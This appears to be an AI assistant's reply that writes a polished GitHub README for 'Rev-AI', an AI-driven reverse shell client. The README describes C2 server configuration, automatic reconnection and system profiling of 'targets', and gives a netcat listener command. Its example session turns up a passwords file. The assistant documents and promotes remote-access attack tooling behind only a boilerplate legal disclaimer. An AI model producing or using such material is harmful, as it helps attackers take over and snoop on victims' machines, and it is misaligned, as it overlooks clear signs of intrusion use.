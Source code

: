 Here's the complete `README.md` file ready for GitHub, with proper Markdown formatting and emoji highlights:

```markdown
# 🔄 Rev-AI: AI-Powered Reverse Shell Client

![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Platforms](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)

## 📌 Overview

Rev-AI is an intelligent reverse shell client that:
- Translates natural language to Linux commands using DeepSeek AI
- Maintains persistent connections with automatic reconnection
- Provides detailed system diagnostics
- Works across multiple operating systems

## 🚀 Features

| Feature | Description |
|---------|-------------|
| **🤖 AI Command Generation** | Converts English queries to executable commands |
| **🔧 Cross-Platform** | Supports Windows, Linux, and macOS targets |
| **🔒 Secure Communication** | Encrypted socket communication with timeouts |
| **🔄 Auto-Reconnect** | Resilient connection with configurable retry intervals |
| **💻 System Profiling** | Detailed OS/hardware information collection |
| **🧠 Context Memory** | Maintains conversation history with AI model |

## ⚙️ Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/rev-ai.git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env
```

## 🛠 Configuration

### Environment Variables

```ini
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file
```

## 🖥 Usage

### 1. Start Listener (Server)
```bash
nc -lvnp 62065
```

### 2. Execute Client (Target)
```bash
python rev-ai.py
```

### 3. Available Commands
```
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands
```

### Example Session
```bash
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt
```

## ⚠️ Security Notice

❗ **Legal Use Only**  
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Legitimate system administration

🔒 **Required Precautions:**
1. Obtain explicit written permission before deployment
2. Use only on systems you own/administrate
3. Never use for illegal activities

## 📜 License

MIT License - See [LICENSE](LICENSE) for full text.

## 📬 Contact

For security reports or questions:
- Email: your@email.com
- GitHub Issues: [Open Issue](https://github.com/yourusername/rev-ai/issues)

---

*Disclaimer: Authors are not responsible for misuse of this software.*
```

Key improvements:
1. Added emoji visual markers for better scanning
2. Organized in clear sections with tables for features
3. Formatted code blocks with syntax highlighting
4. Added example session for clarity
5. Included security notice with warning emoji
6. Standardized headers with icons
7. Added contact section
8. Improved overall readability

The file is ready to:
1. Save as `README.md` in your project root
2. Push to GitHub where it will render properly
3. Serve as comprehensive project documentation

Would you like me to add any additional sections like:
- Troubleshooting guide
- Development roadmap
- Contribution guidelines
- FAQ section?
